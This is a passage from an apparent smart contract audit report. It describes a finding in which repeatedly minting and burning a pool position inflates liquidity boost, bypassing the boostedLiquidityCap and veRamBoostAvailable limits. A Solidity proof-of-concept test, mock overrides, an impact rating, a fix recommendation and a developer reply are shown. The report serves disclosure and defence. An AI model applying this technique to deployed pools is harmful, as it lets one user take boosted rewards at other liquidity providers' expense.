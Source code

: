 ```solidity
            uint8 feeProtocol, 
            bool unlocked
        ) = _pool.slot0();
        int24 tickLower = tick - 132;
        int24 tickUpper = tick + 68;
        _pool.mint(address(this), 0,  tickLower, tickUpper, tickSpacingToMaxLiquidityPerTick(200), 1, "");
        (uint128 boostAmountPreBurn,,,) = _pool.boostInfos(period, positionHash(address(this), 0, tickLower, tickUpper));
        _pool.burn(0, tickLower, tickUpper, tickSpacingToMaxLiquidityPerTick(200), 1);
        _pool.mint(address(this), 0,  tickLower, tickUpper, tickSpacingToMaxLiquidityPerTick(200), 1, "");
        (uint128 boostAmountPostBurn,,,) = _pool.boostInfos(period, positionHash(address(this), 0, tickLower, tickUpper));
        assertGt(uint(boostAmountPostBurn), uint(boostAmountPreBurn));
    }
}
```

Note that the pool in the POC has been initialized similarly to the deployed DEUS/USDC pool which can be found [here](https://arbiscan.io/address/0xb4ace7b779b2c47f591c9e180c51a24123ef98bf).  Also, note that the `MockVotingEscrow` contract has been hard coded to return the same `balanceOfNFT()` (the balance taken from the [deployed veRAM contract](https://arbiscan.io/address/0xaaa343032aa79ee9a6897dab03bef967c3289a06) for `tokenId` 1 at the time of the test) and `isApproverOrOwner()` for ease of testing.
```solidity
    function isApprovedOrOwner(address, uint256) external override view returns (bool) {
        return true;
    }
    
    function balanceOfNFT(uint256) external override view returns (uint256) {
        return 21487469130353205716474214;
    }
```

#### Impact

Medium. An attacker can bypass the `boostedLiquidityCap` and `veRamBoostAvailable` limits.

#### Recommendation

Maintain separate token balance state variables that should be used by the boosted calculations by subtracting the tokens owed to position burners whenever a position is burned.  You could also send the tokens to the burner at the time they are burned, rather than maintaining the balance in the pool.

#### Developer Response

Acknowledged, we plan on making a `poke()` function so users can punish bad actors if they game the system this way.

`poke()` will use current balances in the pool so if the attacker withdrew their tokens then it'll lower their boost. If the attacker leaves the withdrawable tokens in the pool then everyone else will be getting enlarged boost, negating the enlarged boost the attacker has.
